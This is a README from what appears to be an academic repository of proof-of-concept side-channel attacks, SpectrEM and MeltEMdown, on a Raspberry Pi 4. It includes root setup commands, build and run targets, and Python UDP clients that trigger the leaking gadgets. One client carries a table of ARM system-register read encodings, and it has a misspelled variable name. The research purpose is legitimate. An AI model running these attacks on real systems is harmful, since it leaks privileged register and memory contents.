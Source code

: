 # Proof-of-concept implementations

This folder contains the proof-of-concept (POC) implementations of the
SpectrEM and MeltEMdown attacks. 

## Target device

We performed our experiments on the Raspberry Pi 4 model B (2 GB, Rev 1.1). All POCs in this directory are implemented specifically for this device.
All experiments were performed while running Ubuntu 20.04 LTS (64-bit) with kernel version 5.4.0-1088-raspi.

## Setting up the target

To evaluate the POC implementations, we introduced a few simplifications in our paper to ease the evaluation process.
1. We lock the clock frequency at 600 MHz. When running Ubuntu on the Raspberry Pi, this can be done as follows:
```bash
$ sudo su
$ echo "600000" > /sys/devices/system/cpu/cpu0/cpufreq/scaling_min_freq
$ echo "600000" > /sys/devices/system/cpu/cpu0/cpufreq/scaling_max_freq
$ exit 
```
2. We lock the core to one specific core and optimize the probe position for that specific core. In our experiments, we used either core 0 or 1 as these cores exhibited the most leakage. By default, the makefile assigns the POC to core 1.
3. We add a trigger signal to the POC. By default, this will trigger GPIO pin 16 on the Raspberry Pi.

## Build

To build the POCs:  
`make all`  


## Run

To run one of the three POCs:  
`make start_spectrem_cf`  
`make start_spectrem_ins`  
`make start_meltemdown`  

To stop a running POC:  
`make stop_spectrem_cf`  
`make stop_spectrem_ins`  
`make stop_meltemdown`  

## Collecting traces  

This section gives an overview of how to interface with the POC gadgets. For an example implementation, see [collect-traces.ipynb](../scripts/collect/collect_traces.ipynb).

### SpectrEM  
A UDP interface exposes the gadgets in the POC implementations of the Spectre
attack. The following code can be used to access a given bit index of the array.  

```python
import socket
import struct

client_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
client_socket.settimeout(5)

addr = ("IP_OF_VICTIM", 10000)

def access_bit(index: int):
  message = struct.pack("<I", index)  # Note: assumes little-endianness
    
  client_socket.sendto(message, addr)
  data, _ = client_socket.recvfrom(1024)
    
  assert message == data  # Server should return the same message
```  
  
The POC implementation will clear GPIO pin 16 after each access to the gadget.
This allows the oscilloscope to be triggered.

### MeltEMdown  
The MeltEMdown POC is based on
[spec_poc_arm](https://github.com/lgeek/spec_poc_arm) by Cosmin Gorgovan. This
POC was modified to leak the contents of the system registers through the
electromagnetic covert channel leveraging instructions with operand-dependent
timings.
```python
import socket
import struct

sregs = {"ACTLR_EL1" : b"\x23\x10\x38\xd5", "ACTLR_EL2" : b"\x23\x10\x3c\xd5", "ACTLR_EL3" : b"\x23\x10\x3e\xd5", "AIDR_EL1" : b"\xe3\x00\x39\xd5", "AFSR0_EL1" : b"\x03\x51\x38\xd5", "AFSR0_EL2" : b"\x03\x51\x3c\xd5", "AFSR0_EL3" : b"\x03\x51\x3e\xd5", "AFSR1_EL1" : b"\x23\x51\x38\xd5", "AFSR1_EL2" : b"\x23\x51\x3c\xd5", "AFSR1_EL3" : b"\x23\x51\x3e\xd5", "AMAIR_EL1" : b"\x03\xa3\x38\xd5", "AMAIR_EL2" : b"\x03\xa3\x3c\xd5", "AMAIR_EL3" : b"\x03\xa3\x3e\xd5", "CCSIDR_EL1" : b"\x03\x00\x39\xd5", "CLIDR_EL1" : b"\x23\x00\x39\xd5", "CPACR_EL1" : b"\x43\x10\x38\xd5", "CPTR_EL2" : b"\x43\x11\x3c\xd5", "CPTR_EL3" : b"\x43\x11\x3e\xd5", "CSSELR_EL1" : b"\x03\x00\x3a\xd5", "CTR_EL0" : b"\x23\x00\x3b\xd5", "DISR_EL1" : b"\x23\xc1\x38\xd5", "ERRIDR_EL1" : b"\x03\x53\x38\xd5", "ERRSELR_EL1" : b"\x23\x53\x38\xd5", "ERXADDR_EL1" : b"\x63\x54\x38\xd5", "ERXCTLR_EL1" : b"\x23\x54\x38\xd5", "ERXFR_EL1" : b"\x03\x54\x38\xd5", "ERXMISC0_EL1" : b"\x03\x55\x38\xd5", "ERXMISC1_EL1" : b"\x23\x55\x38\xd5", "ERXSTATUS_EL1" : b"\x43\x54\x38\xd5", "ESR_EL1" : b"\x03\x52\x38\xd5", "ESR_EL2" : b"\x03\x52\x3c\xd5", "ESR_EL3" : b"\x03\x52\x3e\xd5", "HACR_EL2" : b"\xe3\x11\x3c\xd5", "HCR_EL2" : b"\x03\x11\x3c\xd5", "ID_AFR0_EL1" : b"\x63\x01\x38\xd5", "ID_DFR0_EL1" : b"\x43\x01\x38\xd5", "ID_ISAR0_EL1" : b"\x03\x02\x38\xd5", "ID_ISAR1_EL1" : b"\x23\x02\x38\xd5", "ID_ISAR2_EL1" : b"\x43\x02\x38\xd5", "ID_ISAR3_EL1" : b"\x63\x02\x38\xd5", "ID_ISAR4_EL1" : b"\x83\x02\x38\xd5", "ID_ISAR5_EL1" : b"\xa3\x02\x38\xd5", "ID_ISAR6_EL1" : b"\xe3\x02\x38\xd5", "ID_MMFR0_EL1" : b"\x83\x01\x38\xd5", "ID_MMFR1_EL1" : b"\xa3\x01\x38\xd5", "ID_MMFR2_EL1" : b"\xc3\x01\x38\xd5", "ID_MMFR3_EL1" : b"\xe3\x01\x38\xd5", "ID_MMFR4_EL1" : b"\xc3\x02\x38\xd5", "ID_PFR0_EL1" : b"\x03\x01\x38\xd5", "ID_PFR1_EL1" : b"\x23\x01\x38\xd5", "ID_AA64DFR0_EL1" : b"\x03\x05\x38\xd5", "ID_AA64ISAR0_EL1" : b"\x03\x06\x38\xd5", "ID_AA64ISAR1_EL1" : b"\x23\x06\x38\xd5", "ID_AA64MMFR0_EL1" : b"\x03\x07\x38\xd5", "ID_AA64MMFR1_EL1" : b"\x23\x07\x38\xd5", "ID_AA64MMFR2_EL1" : b"\x43\x07\x38\xd5", "ID_AA64PFR0_EL1" : b"\x03\x04\x38\xd5", "IFSR32_EL2" : b"\x23\x50\x3c\xd5", "LORC_EL1" : b"\x63\xa4\x38\xd5", "LORID_EL1" : b"\xe3\xa4\x38\xd5", "LORN_EL1" : b"\x43\xa4\x38\xd5", "MDCR_EL3" : b"\x23\x13\x3e\xd5", "MIDR_EL1" : b"\x03\x00\x38\xd5", "MPIDR_EL1" : b"\xa3\x00\x38\xd5", "PAR_EL1" : b"\x03\x74\x38\xd5", "RVBAR_EL3" : b"\x23\xc0\x3e\xd5", "REVIDR_EL1" : b"\xc3\x00\x38\xd5", "SCTLR_EL1" : b"\x03\x10\x38\xd5", "SCTLR_EL3" : b"\x03\x10\x3e\xd5", "TCR_EL1" : b"\x43\x20\x38\xd5", "TCR_EL2" : b"\x43\x20\x3c\xd5", "TCR_EL3" : b"\x43\x20\x3e\xd5", "TTBR0_EL1" : b"\x03\x20\x38\xd5", "TTBR0_EL2" : b"\x03\x20\x3c\xd5", "TTBR0_EL3" : b"\x03\x20\x3e\xd5", "TTBR1_EL1" : b"\x23\x20\x38\xd5", "TTBR1_EL2" : b"\x23\x20\x3c\xd5", "VDISR_EL2" : b"\x23\xc1\x3c\xd5", "VSESR_EL2" : b"\x63\x52\x3c\xd5", "VTCR_EL2" : b"\x43\x21\x3c\xd5", "VTTBR_EL2" : b"\x03\x21\x3c\xd5", "AFSR0_EL12" : b"\x03\x51\x3d\xd5", "AFSR1_EL12" : b"\x23\x51\x3d\xd5", "AMAIR_EL12" : b"\x03\xa3\x3d\xd5", "CNTFRQ_EL0" : b"\x03\xe0\x3b\xd5", "CNTHCTL_EL2" : b"\x03\xe1\x3c\xd5", "CNTHP_CTL_EL2" : b"\x23\xe2\x3c\xd5", "CNTHP_CVAL_EL2" : b"\x43\xe2\x3c\xd5", "CNTHP_TVAL_EL2" : b"\x03\xe2\x3c\xd5", "CNTHV_CTL_EL2" : b"\x23\xe3\x3c\xd5", "CNTHV_CVAL_EL2" : b"\x43\xe3\x3c\xd5", "CNTHV_TVAL_EL2" : b"\x03\xe3\x3c\xd5", "CNTKCTL_EL1" : b"\x03\xe1\x38\xd5", "CNTKCTL_EL12" : b"\x03\xe1\x3d\xd5", "CNTP_CTL_EL0" : b"\x23\xe2\x3b\xd5", "CNTP_CTL_EL02" : b"\x23\xe2\x3d\xd5", "CNTP_CVAL_EL0" : b"\x43\xe2\x3b\xd5", "CNTP_CVAL_EL02" : b"\x43\xe2\x3d\xd5", "CNTP_TVAL_EL0" : b"\x03\xe2\x3b\xd5", "CNTP_TVAL_EL02" : b"\x03\xe2\x3d\xd5", "CNTPCT_EL0" : b"\x23\xe0\x3b\xd5", "CNTPS_CTL_EL1" : b"\x23\xe2\x3f\xd5", "CNTPS_CVAL_EL1" : b"\x43\xe2\x3f\xd5", "CNTPS_TVAL_EL1" : b"\x03\xe2\x3f\xd5", "CNTV_CTL_EL0" : b"\x23\xe3\x3b\xd5", "CNTV_CTL_EL02" : b"\x23\xe3\x3d\xd5", "CNTV_CVAL_EL0" : b"\x43\xe3\x3b\xd5", "CNTV_CVAL_EL02" : b"\x43\xe3\x3d\xd5", "CNTV_TVAL_EL0" : b"\x03\xe3\x3b\xd5", "CNTV_TVAL_EL02" : b"\x03\xe3\x3d\xd5", "CNTVCT_EL0" : b"\x43\xe0\x3b\xd5", "CNTVOFF_EL2" : b"\x63\xe0\x3c\xd5", "CONTEXTIDR_EL1" : b"\x23\xd0\x38\xd5", "CONTEXTIDR_EL12" : b"\x23\xd0\x3d\xd5", "CONTEXTIDR_EL2" : b"\x23\xd0\x3c\xd5", "CPACR_EL12" : b"\x43\x10\x3d\xd5", "DACR32_EL2" : b"\x03\x30\x3c\xd5", "ESR_EL12" : b"\x03\x52\x3d\xd5", "FAR_EL1" : b"\x03\x60\x38\xd5", "FAR_EL12" : b"\x03\x60\x3d\xd5", "FAR_EL2" : b"\x03\x60\x3c\xd5", "FAR_EL3" : b"\x03\x60\x3e\xd5", "FPEXC32_EL2" : b"\x03\x53\x3c\xd5", "HPFAR_EL2" : b"\x83\x60\x3c\xd5", "HSTR_EL2" : b"\x63\x11\x3c\xd5", "ID_AA64AFR0_EL1" : b"\x83\x05\x38\xd5", "ID_AA64AFR1_EL1" : b"\xa3\x05\x38\xd5", "ID_AA64DFR1_EL1" : b"\x23\x05\x38\xd5", "ID_AA64PFR1_EL1" : b"\x23\x04\x38\xd5", "ISR_EL1" : b"\x03\xc1\x38\xd5", "LOREA_EL1" : b"\x23\xa4\x38\xd5", "LORSA_EL1" : b"\x03\xa4\x38\xd5", "MAIR_EL1" : b"\x03\xa2\x38\xd5", "MAIR_EL12" : b"\x03\xa2\x3d\xd5", "MAIR_EL2" : b"\x03\xa2\x3c\xd5", "MAIR_EL3" : b"\x03\xa2\x3e\xd5", "MDCR_EL2" : b"\x23\x11\x3c\xd5", "MVFR0_EL1" : b"\x03\x03\x38\xd5", "MVFR1_EL1" : b"\x23\x03\x38\xd5", "MVFR2_EL1" : b"\x43\x03\x38\xd5", "RMR_EL3" : b"\x43\xc0\x3e\xd5", "SCR_EL3" : b"\x03\x11\x3e\xd5", "SCTLR_EL12" : b"\x03\x10\x3d\xd5", "SCTLR_EL2" : b"\x03\x10\x3c\xd5", "SDER32_EL3" : b"\x23\x11\x3e\xd5", "TCR_EL12" : b"\x43\x20\x3d\xd5", "TPIDR_EL0" : b"\x43\xd0\x3b\xd5", "TPIDR_EL1" : b"\x83\xd0\x38\xd5", "TPIDR_EL2" : b"\x43\xd0\x3c\xd5", "TPIDR_EL3" : b"\x43\xd0\x3e\xd5", "TPIDRRO_EL0" : b"\x63\xd0\x3b\xd5", "TTBR0_EL12" : b"\x03\x20\x3d\xd5", "TTBR1_EL12" : b"\x23\x20\x3d\xd5", "VBAR_EL1" : b"\x03\xc0\x38\xd5", "VBAR_EL12" : b"\x03\xc0\x3d\xd5", "VBAR_EL2" : b"\x03\xc0\x3c\xd5", "VBAR_EL3" : b"\x03\xc0\x3e\xd5", "VMPIDR_EL2" : b"\xa3\x00\x3c\xd5", "VPIDR_EL2" : b"\x03\x00\x3c\xd5"}

client_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
client_socket.settimeout(5)

addr = ("IP_OF_VICTIM", 10000)

def access_bit(index: int, register_name: str):
  msg = struct.pack("<I", index) + sregs[regsiter_name]
    
  client_socket.sendto(msg, addr)
  data, _ = client_socket.recvfrom(1024)

  assert msg == data  # Server should return the same message
```  
The POC implementation will set GPIO pin 16 before executing the leaking instructions.
This allows the oscilloscope to be triggered.
